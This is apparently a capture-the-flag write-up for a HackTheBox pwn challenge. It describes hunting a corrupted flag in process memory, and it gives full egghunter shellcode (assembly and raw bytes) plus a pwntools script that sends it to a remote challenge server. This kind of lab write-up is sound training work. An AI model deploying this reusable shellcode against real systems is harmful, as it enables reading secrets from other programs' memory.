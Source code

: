 - the program is allocating memory for the flag to store it and after corrupt it, so the only solution to this challenge is to scan process memory for 'HTB{' pattern.
- we will face one problem which is if the memory we want to read is accessible or not. we'll use `access` SYSCALL to check that.
![pwn_hunting-copy and corrupt the flag](https://github.com/0xPrimo/CTFs/assets/93877982/58e8b19c-861b-46e1-9d1f-ea70d0f185bc)

- we'll use `egghunter` shellcode to find the pattern (egg) and print it using `write` SYSCALL.
```
	31 C0               	xor     eax, eax
	89 C7               	mov     edi, eax
	BF 48 54 42 7B          mov     edi, 7B425448h
	
	            		next_page:                           
	
	66 81 CA FF 0F          or      dx, 0FFFh
	
	                    next_address:
	
	42                      inc     edx
	60                      pusha
	31 C9                   xor     ecx, ecx        ; mode
	8D 5A 04                lea     ebx, [edx+4]    ; pathname
	B0 21                   mov     al, 21h ; '!'
	CD 80                   int     80h             ; LINUX 	sys_access
	3C F2                   cmp     al, 0F2h
	61                      popa
	74 EB                   jz      short next_page
	39 3A                   cmp     [edx], edi
	75 EC                   jnz     short next_address


	89 D1                   mov     ecx, edx        ; addr
	31 C0                   xor     eax, eax
	89 C3                   mov     ebx, eax
	89 DA                   mov     edx, ebx

						print_flag:
 	B0 04                   mov     al, 4
 	B3 01                   mov     bl, 1           ; fd
	B2 01                   mov     dl, 1
	CD 80                   int     80h             ; LINUX - sys_write
	41                      inc     ecx
	38 31                   cmp     [ecx], dh
	75 F3                   jnz     short print_flag
	C3                      retn
```
- python script

```
from pwn import *

shellcode = b'\x31\xc0\x89\xc7\xbf\x48\x54\x42\x7b\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x31\xc0\x89\xc3\x89\xda\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x41\x38\x31\x75\xf3\xc3'


context.update(arch="i386", os="linux")


r = remote("<ip>", <port>)

r.send(shellcode)

flag = r.recv()
log.success(str(flag))
r.close()
```
